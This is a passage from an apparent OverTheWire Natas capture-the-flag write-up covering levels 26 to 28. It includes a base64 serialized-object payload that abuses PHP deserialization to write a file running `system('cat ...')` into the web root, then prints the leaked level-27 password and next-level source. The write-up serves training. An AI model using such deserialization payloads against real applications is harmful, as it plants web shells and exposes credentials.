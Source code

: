 ```php

$lo = new Logger();
echo base64_encode(serialize($lo)); 

?>
//output
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozMzoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcm8ucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6Njoicm9zaGFuIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDk6Ijw/cGhwIHN5c3RlbSgnY2F0IC9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7Pz4iO30=
```

When this is set into the drawing cookie then we can get the flag at /img/ro.php.

This works because the $drawing variable upon deserialization becomes an object, since it is not an array, it throws an error and the __destruct function is called which sees the logfile as /var/www/natas/natas26/img/ro.php and writes the payload using the exitMsg member variable. The exitMsg value is written in the log file and upon requesting we get the flag.

natas27 : 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

# Level 27-28

![/assets/images/OverTheWire/Natas/Untitled%2021.png](/assets/images/OverTheWire/Natas/Untitled%2021.png)

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
function validUser($link,$usr){
    
    $user=mysql_real_escape_string($usr);
    
    $query = "SELECT * from users where username='$user'";
    $res = mysql_query($query, $link);
    if($res) {
        if(mysql_num_rows($res) > 0) {
            return True;
        }
    }
    return False;
}
function createUser($link, $usr, $pass){

    $user=mysql_real_escape_string($usr);
    $password=mysql_real_escape_string($pass);
    
    $query = "INSERT INTO users (username,password) values ('$user','$password')";
    $res = mysql_query($query, $link);
    if(mysql_affected_rows() > 0){
        return True;
    }
```